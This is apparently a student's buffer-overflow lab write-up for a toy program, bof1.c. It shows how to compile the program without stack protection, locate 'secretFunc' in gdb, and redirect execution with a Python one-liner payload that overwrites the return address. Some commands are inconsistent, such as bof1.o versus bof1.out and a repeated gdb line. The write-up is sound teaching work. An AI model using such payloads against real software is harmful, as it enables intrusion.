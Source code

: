 # 20110540, Huỳnh Hùng Phú
# Lab #1: Buffer Overflow
# Task 1: Stack smashing by memory overwritten
## 1.1. bof1.c
<span style="color:blue">Compiles program with </span>`` gcc -g bof1.c -o bof1.o -fno-stack-protector -mpreferred-stack-boundary=2 ``<br>
<span style="color:blue">Start 'gdb' with compiled executable </span>`` gdb -q bof1.out ``<br>
<span style="color:blue">Use 'disassemble'command to find the address of 'secretFunc' </span>`` gdb -q bof1.out ``<br>
<span style="color:blue">'SecretFunc' starts at memory address 0x0804846b </span><br>
<span style="color:blue">Overwrite the 200-byte array and additionally overwrite 4 bytes previous frame pointer + the address of the secretFunc function </span>`` python -c 'print "a"*204 + "\x6b\x84\x04\x08"' | ./bof1.o 1 ``<br>
<span style="color:blue">Completely</span>
<img width="726" alt="Screenshot 2023-05-02 165126" src="https://raw.githubusercontent.com/hungphu2151/security_labs/main/images/bof1.png">
![bof2.png](attachment:bof2.png)
